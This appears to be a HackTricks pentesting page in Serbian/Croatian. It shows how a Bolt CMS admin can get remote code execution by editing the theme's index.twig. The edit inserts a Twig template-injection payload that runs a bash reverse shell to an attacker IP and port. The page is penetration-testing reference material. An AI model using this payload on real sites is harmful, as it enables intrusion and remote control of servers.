 # Bolt CMS

{{#include ../../banners/hacktricks-training.md}}

## RCE

Nakon prijave kao admin (idite na /bot da pristupite login promptu), možete dobiti RCE u Bolt CMS:

- Izaberite `Configuration` -> `View Configuration` -> `Main Configuration` ili idite na URL putanju `/bolt/file-edit/config?file=/bolt/config.yaml`
- Proverite vrednost teme

<figure><img src="../../images/image (771).png" alt=""><figcaption></figcaption></figure>

- Izaberite `File management` -> `View & edit templates`
- Izaberite osnovnu temu pronađenu u prethodnom (`base-2021` u ovom slučaju) koraku i izaberite `index.twig`
- U mom slučaju ovo je na URL putanji /bolt/file-edit/themes?file=/base-2021/index.twig
- Postavite svoj payload u ovu datoteku putem [template injection (Twig)](../../pentesting-web/ssti-server-side-template-injection/#twig-php), kao: `{{['bash -c "bash -i >& /dev/tcp/10.10.14.14/4444 0>&1"']|filter('system')}}`
- I sačuvajte promene

<figure><img src="../../images/image (948).png" alt=""><figcaption></figcaption></figure>

- Očistite keš u `Maintenance` -> `Clear the cache`
- Ponovo pristupite stranici kao običan korisnik, i payload bi trebao biti izvršen

{{#include ../../banners/hacktricks-training.md}}
